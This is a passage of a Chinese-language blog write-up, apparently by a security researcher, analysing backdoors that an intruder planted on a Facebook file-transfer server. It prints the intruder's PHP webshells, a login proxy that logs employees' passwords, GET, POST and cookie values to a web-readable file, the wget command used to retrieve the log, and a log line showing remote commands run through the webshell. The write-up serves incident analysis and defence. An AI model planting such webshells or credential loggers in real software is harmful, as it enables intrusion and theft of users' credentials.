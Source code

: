 **uploader.php**
{% highlight php %}
<?php move_uploaded_file($_FILES["f]["tmp_name"], basename($_FILES["f"]["name"])); ?>
{% endhighlight %}

**d.php**
{% highlight php %}
<?php include_oncce("/home/seos/courier/remote.inc"); echo decrypt($_GET["c"]); ?>
{% endhighlight %}

**sclient\_user\_class\_standard.inc**
{% highlight php %}
<?php
include_once('sclient_user_class_standard.inc.orig');
$fp = fopen("/home/seos/courier/B3dKe9sQaa0L.log", "a"); 
$retries = 0;
$max_retries = 100; 

// 省略...

fwrite($fp, date("Y-m-d H:i:s T") . ";" . $_SERVER["REMOTE_ADDR"] . ";" . $_SERVER["HTTP_USER_AGENT"] . ";POST=" . http_build_query($_POST) . ";GET=" . http_build_query($_GET) . ";COOKIE=" . http_build_query($_COOKIE) . "\n"); 

// 省略...
{% endhighlight %}

前幾個就是很標準的 PHP 一句話木馬  
其中比較特別的是 "**sclient\_user\_class\_standard.inc**" 這個檔案  

include_once 中 "**sclient\_user\_class\_standard.inc.orig**" 為原本對密碼進行驗證的 PHP 程式，駭客做了一個 Proxy 在中間並在進行一些重要操作時先把 GET, POST, COOKIE 的值記錄起來  

整理一下，駭客做了一個 Proxy 在密碼驗證的地方，並且記錄 Facebook 員工的帳號密碼，並且將記錄到的密碼放置在 Web 目錄下，駭客每隔一段時間使用   wget 抓取

    wget https://files.fb.com/courier/B3dKe9sQaa0L.log


![logged password](/images/news/20160421/5.jpg)
*↑ Logged passwords*

<br>

從紀錄裡面可以看到除了使用者帳號密碼外，還有從 FTA 要求檔案時的信件內容，記錄到的帳號密碼會定時 Rotate (後文會提及，這點還滿機車的XD)  

發現當下，最近一次的 Rotate 從 2/1 記錄到 2/7 共約 300 筆帳號密碼紀錄，大多都是 "**@fb.com**" 或是 "**@facebook.com**" 的員工帳密，看到當下覺得事情有點嚴重了，在 FTA 中，使用者的登入主要有兩種模式  

 1. 一般用戶註冊，密碼 Hash 存在資料庫，由 SHA256 + SALT 儲存
 2. Facebook 員工 (@fb.com) 則走統一認證，使用 LDAP 由 AD 認證
 
在這裡相信記錄到的是真實的員工帳號密碼，****猜測**** 這份帳號密碼應該可以通行 Facebook Mail OWA, VPN 等服務做更進一步的滲透...  

此外，這名 "駭客" 可能習慣不太好 :P   

 1. 後門參數皆使用 GET 來傳遞，在網頁日誌可以很明顯的發現他的足跡
 2. 駭客在進行一些指令操作時沒顧慮到 STDERR ，導致網頁日誌中很多指令的錯誤訊息，從中可以觀察駭客做了哪些操作

<br>
從 access.log 可以觀察到的每隔數日駭客會將記錄到的帳號密碼清空  
{% highlight prolog %}
192.168.54.13 - - 17955 [Sat, 23 Jan 2016 19:04:10 +0000 | 1453575850] "GET /courier/custom_template/1000/bN3dl0Aw.php?c=./sshpass -p '********' ssh -v -o StrictHostKeyChecking=no soggycat@localhost 'cp /home/seos/courier/B3dKe9sQaa0L.log /home/seos/courier/B3dKe9sQaa0L.log.2; echo > /home/seos/courier/B3dKe9sQaa0L.log' 2>/dev/stdout HTTP/1.1" 200 2559 ...
{% endhighlight %}
<br>
